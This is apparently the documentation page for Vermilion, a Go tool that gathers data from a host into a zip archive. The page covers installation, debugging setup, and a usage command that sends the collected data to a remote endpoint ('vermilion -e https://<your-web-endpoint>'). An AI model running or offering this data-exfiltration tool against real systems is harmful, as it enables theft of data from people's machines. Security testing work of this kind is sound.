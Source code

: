 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.1.0/vermilion_0.1.0_linux_amd64.tar.gz
tar -xzf vermilion_0.1.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

By default no exfiltration is executed, the following two commands are the same:
```console
vermilion
```
and
```console
vermilion --noexf
```  

both the previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify and endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


